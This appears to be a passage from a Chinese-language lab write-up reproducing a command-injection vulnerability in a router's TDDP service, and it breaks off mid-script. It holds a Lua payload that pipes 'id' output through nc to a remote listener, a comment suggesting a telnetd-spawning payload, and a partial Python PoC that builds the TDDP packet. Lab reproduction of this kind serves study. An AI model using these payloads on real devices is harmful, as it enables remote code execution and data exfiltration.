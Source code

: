下图是启动成功的界面
![](imgs/image-20241025162544581.png)

之后是漏洞复现的步骤
现在宿主机的`/tftpboot` 目录下创建下面两个文件

文件一：payload
```bash
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```
文件二：poc.py
```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
```